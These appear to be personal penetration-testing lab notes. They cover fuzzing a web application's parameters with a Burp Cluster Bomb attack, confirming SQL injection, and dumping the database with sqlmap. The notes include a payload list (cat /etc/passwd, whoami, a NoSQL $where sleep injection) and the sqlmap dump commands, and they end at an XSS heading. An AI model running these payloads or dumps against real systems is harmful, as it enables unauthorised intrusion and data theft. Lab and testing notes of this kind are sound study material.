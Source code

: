 Payloads:
```
whoami
id
cat /etc/passwd
uname -a
{"$where": "sleep(1000) "}
;%00
-- -
```

Disable Payload Encoding for both payloads

![[Capture d’écran 2023-08-01 144311.png]]

Start *Cluster Bomb* Attack
![[Capture d’écran 2023-08-01 150346.png]]

Look at resonses to see if there's a command injection vector, since there is nothing,
**We test another Parameter**, here we succeded in 2nd attempt:

![[Capture d’écran 2023-08-01 150732.png]]

We can test for SQL injection by adding a `'` to the string.

![[Capture d’écran 2023-08-01 145555.png]]

### Exploiting

As we can see, we are able to perform sql injections in this string !

![[Capture d’écran 2023-08-01 145806.png]]

Copy as request and feed it to `sqlmap` , you need to add `*` in instead of `'` so that sqlmap procceses it

![[Capture d’écran 2023-08-01 152154.png]]

```sh
sqlmap -r req.txt -tables --batch
```

![[Pasted image 20230801152117.png]]

Now dump the 

```sh
sqlmap -r request.txt -dbms=sqlite -dump
```

Then check results in **cli** or from **files**

![[Capture d’écran 2023-08-01 152845.png]]

## XSS, HTML Injection
